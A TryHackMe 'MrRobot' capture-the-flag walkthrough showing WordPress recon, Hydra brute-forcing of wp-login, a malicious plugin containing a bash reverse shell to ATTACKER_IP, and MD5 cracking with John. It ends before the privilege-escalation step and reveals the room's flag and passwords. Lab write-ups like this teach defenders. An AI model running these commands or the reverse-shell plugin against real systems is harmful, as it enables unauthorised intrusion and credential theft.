




# TryHackMe - MrRobot **Write up 🇬🇧**

## Introduction

Hey! This is my write-up of the “**MrRobot**” challenge — a dive into basic Wordpress exploitation and basic privilege escalation techniques.

This write-up covers the exploitation of the **MrRobot** room on TryHackMe, which is classified as an **easy** room.
As usual, throughout this walkthrough, I’ll go over the common steps of penetration testing:

- Reconnaissance
- Exploitation
- Post-exploitation

## Information

🛠️ **Machine type**: Linux

🧠 **Main skills tested**: Web exploitation, WordPress, Local enumeration, Privilege escalation

📦 **Tools used**: Nmap, Ffuf, Curl, Netcat, WP-scan, Wappalyzer, Pwncat, Perl, Hydra

This machine is a great opportunity to practice **Enumeration basics (internal/external),** **Wordpress enum/exploitation and a bit of privesc techniques**.

Let’s dive in!

---

## Room Setup

First, we can add the IP target to the `/etc/hosts` file so it’s easier to interact with the target machine.

```bash
echo "10.10.135.61 target" | sudo tee -a /etc/hosts
```

or using nano write the following:

```bash
sudo nano /etc/hosts

10.10.135.61 target # Add this line
```

This allows us to access the IP address `10.10.135.61` via the following name: `target`

---

## Initial Recon & Observations

As usual, I like to perform a simple aggressive scan using Nmap.

To do that, we can use the following command:

```bash
nmap -A -oN scan.txt -oX scan.xml target 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-02 10:15 CEST
Nmap scan report for target (10.10.135.61)
Host is up (0.10s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c8:44:28:46:f2:4a:51:09:4b:76:5a:45:0c:a2:7a:b8 (RSA)
|   256 1f:ab:d3:fe:aa:c3:2c:17:82:eb:58:88:7d:15:cf:8f (ECDSA)
|_  256 41:46:fe:c9:af:b1:f3:e6:3a:52:71:7b:04:92:9b:a3 (ED25519)
80/tcp  open  http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X|2.6.X|3.X|5.X (97%)
OS CPE: cpe:/o:linux:linux_kernel:4.15 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 4.15 - 5.19 (91%), Linux 5.0 - 5.14 (91%), Linux 2.6.32 - 3.10 (91%), Linux 5.4 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   93.73 ms 10.8.0.1
2   92.49 ms target (10.10.135.61)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.49 seconds
```

**Command explanation**: We start an Nmap scan using the aggressive template (`-A`), then specify to save the result in two files named respectively `scan.xml` and `scan.txt` — an XML file using the `-oX` flag and a text file with the `-oN` one. We do that so we don’t have to scan the machine repeatedly.

Let’s put all that in a table so it’s easier to read using [Nmap2Table](https://github.com/0xMR007/Nmap2Table) and our previous XML file:

### Host: 10.10.135.61 (target)

| Port/Protocol | State | Service | Version |
|---------------|-------|---------|---------|
| 22/tcp | open | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 80/tcp | open | http | Apache httpd |
| 443/tcp | open | http | Apache httpd |

### NSE Scripts:

```bash
Port 22:
ssh-hostkey:
3072 76:16:3e:e0:1b:47:03:68:f1:3a:88:59:22:38:bc:23 (RSA)
256 31:f2:14:7f:c8:45:eb:57:9e:9b:f4:68:cd:f8:7b:cb (ECDSA)
256 14:3c:12:cf:6f:d4:c2:15:69:45:11:a8:a2:d7:79:8a (ED25519)

Port 80:
http-server-header: Apache
http-title: Site doesn't have a title (text/html).

Port 443:
ssl-cert:
Subject: commonName=www.example.com
Not valid before: 2015-09-16T10:45:03
Not valid after: 2025-09-13T10:45:03
http-title: Site doesn't have a title (text/html).
http-server-header: Apache
```

There are only 3 ports open. Let’s summarize the scan result:

- Port 22: First, we can see that the SSH port is open, running OpenSSH 8.2p1. The machine might also be running Ubuntu. The target machine runs on Linux (confirmed by the OS discovery).
- Port 80: Next, we also have the HTTP port open. The target machine is a web server running the Apache service.
- Port 443: Finally, HTTPS seems to be enabled. The target machine serves both default web ports running on Apache.

To make sure we don’t miss anything interesting during our enumeration phase, we can perform a SYN scan on all TCP ports using the `-p-` flag.

```bash
nmap -sS --min-rate=1500 -p- target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-03 11:25 CEST
Nmap scan report for target (10.10.135.61)
Host is up (0.052s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 75.65 seconds
```

**Note : Here the `--min-rate=1500` option is used to speed up the scan.**

## Web Enumeration

So far, all we know is that the target machine seems to be a Linux web server running Apache on both HTTP and HTTPS.

Using a browser and going to `http://target/` or `https://target/` gives the same result: a Mr. Robot-themed website. So, I just picked the one running on HTTP and focused on that. You can always choose the HTTPS one, even though I didn’t try it (the steps should be pretty much the same).

First, let’s fuzz the website using `ffuf` to get a basic understanding of its structure.

The result will be messy, but don’t worry about it; we just want to take a quick look.

```bash
ffuf -u http://target/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://target/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 108ms]
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 115ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 120ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 350ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 296ms]
admin                   [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 78ms]
audio                   [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 118ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 166ms]
blog                    [Status: 301, Size: 227, Words: 14, Lines: 8, Duration: 77ms]
css                     [Status: 301, Size: 226, Words: 14, Lines: 8, Duration: 68ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 279ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 371ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 314ms]
images                  [Status: 301, Size: 229, Words: 14, Lines: 8, Duration: 74ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 330ms]
index.html              [Status: 200, Size: 1104, Words: 189, Lines: 31, Duration: 76ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 372ms]
js                      [Status: 301, Size: 225, Words: 14, Lines: 8, Duration: 73ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 130ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 267ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 113ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 318ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 85ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 92ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 329ms]
render/https://www.google.com [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 323ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 71ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 71ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 278ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 289ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 182ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 168ms]
video                   [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 980ms]
wp-admin                [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 100ms]
wp-content              [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 75ms]
wp-includes             [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 116ms]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 290ms]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 295ms]
wp-login                [Status: 200, Size: 2564, Words: 115, Lines: 53, Duration: 382ms]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 395ms]
wp-links-opml           [Status: 200, Size: 227, Words: 13, Lines: 11, Duration: 396ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 323ms]
wp-mail                 [Status: 500, Size: 3064, Words: 212, Lines: 110, Duration: 377ms]
wp-settings             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 324ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 707ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 721ms]
:: Progress: [4746/4746] :: Job [1/1] :: 122 req/sec :: Duration: [0:00:41] :: Errors: 0 ::
```

From this, some important information can be noted:

- The website is indeed running WordPress! (`wp-*` endpoints)
- There’s the WordPress login page available (200 HTTP code)
- The famous `robots.txt` file is available. → We might want to check its content.

First, let’s take a look at the `robots.txt` file.


Ok, nice! It seems that 2 files are present… interesting.

Let’s see if we can access these using our browser.



Perfect! We got our first key: `073403c8a58a1f80d943455fb30724b9`. Easy, right?

Checking the other file, it looks like a dictionary or a wordlist file. It might be useful for a brute force. Let’s download it using `curl` (just in case).

```bash
curl http://target/fsocity.dic -o fsocity.dic
ls
fsocity.dic scan.txt scan.xml
```

As we already know, the website uses WordPress, so let’s perform a simple `wpscan` to see if we can get more information.

```bash
wpscan --url http://target/     
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://target/ [10.10.27.172]
[+] Started: Sat Aug  2 10:38:27 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://target/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://target/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://target/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://target/5d0fee7.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://target/5d0fee7.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://target/wp-content/themes/twentyfifteen/
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://target/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 4.0
 | Style URL: http://target/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://target/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <========================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Aug  2 10:38:43 2025
[+] Requests Done: 173
[+] Cached Requests: 6
[+] Data Sent: 40.479 KB
[+] Data Received: 278.06 KB
[+] Memory used: 264.734 MB
[+] Elapsed time: 00:00:15
```

Ok, now we have some new information:

- WordPress version is 4.3.1. This is an old version and potentially insecure.
- There is a theme named twentyfifteen.

I made some research but didn’t find anything useful for us.

Then I remembered that there is a `wp-login` page. Let’s see if we can perform a brute force using Hydra on it!

First, let’s send a test request and intercept it using Burp Suite and the FoxyProxy browser extension.

Here are some useful links for those who are new to Burp Suite:

- [Intercepting HTTP Traffic with Burp Suite](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)
- [Intercept Browser Traffic in Burp Suite Proxy](https://www.studytonight.com/post/intercept-browser-traffic-in-burpsuite-proxy)



The request gives us the 2 parameters used for login: `log` and `pwd`. These will be useful for the following step.

Remember the dictionary file we retrieved in the beginning? We’ll use it now.

If you’re curious and took a quick look at it, you should have noted that there are a lot of duplicates.

To remove them, we can use the following command:

```bash
sort fsocity.dic | uniq > fsocity_uniq.dic
```

Here we first sort the file `fsocity.dic`, then, using the `uniq` command, we remove all duplicates from the previous output using a pipe `|`. You’ll see that the number of words will drastically decrease from 858,160 lines to 11,451—a huge gain!

This doesn’t affect the brute force’s result but only its performance. We don’t want our brute force to try 846,709 credentials twice (or more!).

Anyway, let’s launch the brute force now to check if we can retrieve a username. If we do, we should do the same for the password.

```bash
hydra -L fsocity_uniq.dic -p test target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=Invalid username" -t 64   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-03 12:07:54
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 11452 login tries (l:11452/p:1), ~179 tries per task
[DATA] attacking http-post-form://target:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=Invalid username
[STATUS] 5435.00 tries/min, 5435 tries in 00:01h, 6017 to do in 00:02h, 64 active
[80][http-post-form] host: target   login: elliot   password: test
[80][http-post-form] host: target   login: ELLIOT   password: test
[80][http-post-form] host: target   login: Elliot   password: test
[STATUS] 5516.50 tries/min, 11033 tries in 00:02h, 419 to do in 00:01h, 64 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

**Command explanation:**

- `-L`: Flag used to specify a dictionary file of usernames. This performs a brute force on the username.
- `-p`: Flag used to specify a static password. The password will not change.
- `target`: Target IP address or domain name.
- `http-post-form`: Module used to perform the brute force. We try to connect through an HTTP POST request.
- `-t 64`: Flag used to specify a number of threads (brute force parallelization). This performs more tries per task.

**Note: The part `"/wp-login.php:log=^USER^&pwd=^PASS^...` might be scary but it’s very simple: it follows the syntax `"<url>:<post_data>:<failure_string>"`.**

- `<url>`: The path to the login page. Here, it is `/wp-login.php`.
- `<post_data>`: The POST data we want to send. This is the line from the previous Burp Suite screenshot (see below). Note that we’ve replaced the static values with the Hydra variables using a pair of `^`.
- `<failure_string>`: The string that appears in the response of a failed login attempt. Here, we’ll go with `F=Invalid username`.


Used link: [Hydra HTTP post form module](https://labex.io/tutorials/hydra-explore-hydra-module-specific-options-550767)

Nice! A user named `elliot` seems to exist, and we can also note that the case is not important.

Now that we have a username available on the WordPress website, maybe we can brute force his password too, right? Let’s try to do that!

```bash
hydra -l elliot -P fsocity_uniq.dic target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=The password you entered" -t 64 -I 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-03 12:11:43
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 11452 login tries (l:1/p:11452), ~179 tries per task
[DATA] attacking http-post-form://target:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=The password you entered
[STATUS] 4796.00 tries/min, 4796 tries in 00:01h, 6656 to do in 00:02h, 64 active
[80][http-post-form] host: target   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-03 12:12:55
```

**Command explanation: We just changed the `-L` to `-P` and vice versa; otherwise, it’s the same structure.**

Perfect! We now have the complete login information: `elliot:ER28-0652`.

## Exploitation

To continue, we can try to connect to WordPress.



It works! We now have access to the WordPress administration panel. Let’s take a look around to see what information we can gather.

After looking around, all I found was:

- There are two users: `elliot`, who is an admin, and `mich05654`, just a subscriber.
- We seem to have full access, so we can add themes, plugins, etc.

The first thing I thought about was uploading a malicious plugin/theme to get a reverse shell on the target machine.

Let’s create our malicious file first.

```bash
touch php-reverse-shell.php
ls
fsocity.dic fsocity_uniq.dic php-reverse-shell.php
```

Inside it, we can write a simple malicious payload in PHP. This will allow us to get a reverse shell on the target machine.

```php
<?php
/*
Plugin Name: PHP Reverse Shell
Plugin URI: http://fakeurl.xyz/
Description: Just a test plugin ;)
Version: 1.0
Author: 0xMR007
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```

Don’t forget to complete the following fields: `ATTACKER_IP`, `PORT`.

Next, we set up our `pwncat` listener to get a clean and upgraded reverse shell.

**Note: You can also use `netcat` and upgrade it yourself using `netcat` and the following link: [Upgrade a reverse shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). However, personally, I prefer using `pwncat`.**

```bash
pwncat -lp 4444
[12:50:28] Welcome to pwncat 🐈!                                                                       __main__.py:164
bound to 0.0.0.0:4444 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

After that, we prepare our zip file as it must follow the following structure:

```
php-reverse-shell/
└── php-reverse-shell.php # Malicious file
```

We can do that using the following commands:

```bash
mkdir php-reverse-shell
mv php-reverse-shell.php php-reverse-shell/
zip -r php-reverse-shell.zip php-reverse-shell/
ls
fsocity.dic fsocity_uniq.dic php-reverse-shell php-reverse-shell.zip
```

Now we have our zip file; we can try to upload it as a plugin.



It seems our file was successfully uploaded. Perfect!

Click on **Activate Plugin**.

```bash
pwncat -lp 4444
[12:50:28] Welcome to pwncat 🐈!                                                                       __main__.py:164
[13:13:44] received connection from 10.10.135.61:40554                                                      bind.py:84
[13:13:46] 10.10.135.61:40554: registered new host w/ db                                                manager.py:957
(local) pwncat$ # Use CTRL + D to interact with the target machine
(remote) daemon@ip-10-10-135-61:/opt/bitnami/apps/wordpress/htdocs/wp-admin$
```

Our attack succeeded! We managed to gain a reverse shell on the target machine. Let’s see what we can do next!

## Post Exploitation

The room is almost finished; keep it up!

To start this phase, I like taking a quick look around in the `/home` directory.

```bash
(remote) daemon@ip-10-10-135-61:/opt/bitnami/apps/wordpress/htdocs/wp-admin$ cd /home/robot/
(remote) daemon@ip-10-10-135-61:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 4 root  root  4096 Jun  2 18:14 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

We found an interesting user named `robot` in his home directory. We discovered 2 interesting files: `key-2-of-3.txt` and `password.raw-md5`.

Even though we don’t have read permission on `key-2-of-3.txt`, I tried to check its content but it failed.

So I checked the other one, which seems to be an MD5 hash—the password of the user `robot`? Well, maybe :).

```bash
(remote) daemon@ip-10-10-135-61:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
(remote) daemon@ip-10-10-135-61:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Next, I used the tool John to crack it using the `rockyou` wordlist. At first, it gave a really messy output and didn’t manage to crack it.

```bash
echo 'c3fcd3d76192e4007dfb496cca67e13b' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                 
Warning: detected hash type "LM", but the string is also recognized as "dynamic=md5($p)"
Use the "--format=dynamic=md5($p)" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "HAVAL-128-4"
Use the "--format=HAVAL-128-4" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "MD2"
Use the "--format=MD2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mdc2"
Use the "--format=mdc2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mscash"
Use the "--format=mscash" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mscash2"
Use the "--format=mscash2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD4"
Use the "--format=Raw-MD4" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD5"
Use the "--format=Raw-MD5" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD5u"
Use the "--format=Raw-MD5u" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "ripemd-128"
Use the "--format=ripemd-128" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Snefru-128"
Use the "--format=Snefru-128" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "ZipMonster"
Use the "--format=ZipMonster" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 2 password hashes with no different salts (LM [DES 128/128 SSE2])
Warning: poor OpenMP scalability for this hash type, consider --fork=3
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2025-08-03 13:22) 0g/s 8173Kp/s 8173Kc/s 16347KC/s !WHOA!1..*7¡VA
Session completed.
```

Luckily for us, the hash format is told in the file’s name: MD5 hash.

Let’s try to crack it using the MD5 format specifier (`--format=Raw-MD5`) to John.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2025-08-03 13:21) 50.00g/s 2025Kp/s 2025Kc/s 2025KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Well, that was easy! The password we managed to retrieve is `abcdefghijklmnopqrstuvwxyz`.

We can try to connect as the `robot` user to check if it’s his password.

```bash
